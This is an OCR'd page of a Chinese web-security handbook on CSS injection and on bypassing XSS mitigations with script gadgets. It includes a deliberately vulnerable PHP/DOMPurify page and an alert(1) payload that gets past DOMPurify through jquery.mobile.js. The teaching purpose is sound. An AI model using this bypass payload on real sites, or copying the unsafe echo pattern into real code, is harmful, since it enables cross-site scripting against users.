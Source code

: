 
------------

3.2.8.1. CSS 注入
CSS注入最早开始于利用CSS中的 expression() url() regex() 等函数或特性来引入外部的恶意代码，但是随着浏览器的发展，这种方式被逐渐禁用，与此同时，出现了一些新的攻击方式。


------------
3.2.8.1.2. CSS selectors
![s](https://note.youdao.com/yws/public/resource/2e5cf2591c66904f78df39f912277f6d/xmlnote/WEBRESOURCEaef961e3ae32a03b088fe51844de0466/8787 "s")


------------

3.2.8.1.3. Abusing Unicode Range
当可以插入CSS的时候，可以使用 font-face 配合 unicode-range 获取目标网页对应字符集。PoC如下

![s](https://note.youdao.com/yws/public/resource/2e5cf2591c66904f78df39f912277f6d/xmlnote/WEBRESOURCE9d188475481b386de2917b5a7472d58b/8798 "s")


------------
3.2.8.2. Bypass Via Script Gadgets

3.2.8.2.1. 简介
一些网站会使用白名单或者一些基于DOM的防御方式，对这些方式，有一种被称为 Code Reuse 的攻击方式可以绕过。该方式和二进制攻防中的Gadget相似，使用目标中的合法代码来达到绕过防御措施的目的。在论文 Code-Reuse Attacks for the Web: Breaking Cross-Site Scripting Mitigations via Script Gadgets 中有该方法的具体描述。  
portswigger的一篇博文也表达了类似的想法 https://portswigger.net/blog/abusing-javascript-frameworks-to-bypass-xss-mitigations。  
下面有一个简单的例子，这个例子使用了 DOMPurify 来加固，但是因为引入了 jquery.mobile.js 导致可以被攻击。


------------
3.2.8.2.2. 例子
```
// index.php 
<?php  

$msg = $_GET['message']; 
$msg = str_replace("\n", "", 
$msg); $msg = base64_encode($msg);  

?>  
<!DOCTYPE html> 
<html lang="en"> 
<head>     
<meta charset="UTF-8">     
<title>Preview</title>     
<script type="text/javascript" src="purify.js"></script>     
<script type="text/javascript" src="jquery.js"></script>     
<script type="text/javascript" src="jquery.mobile.js"></script> 
</head> 
<body>      

<script type="text/javascript">     
var d= atob('<?php echo $msg; ?>');     
var cleanvar = DOMPurify.sanitize(d);    
document.write(cleanvar);     
</script>  

</body> 
</html> 

// playload 
<div data-role=popup id='--> 
&lt;script&gt;alert(1)&lt;/script&gt;'> 
```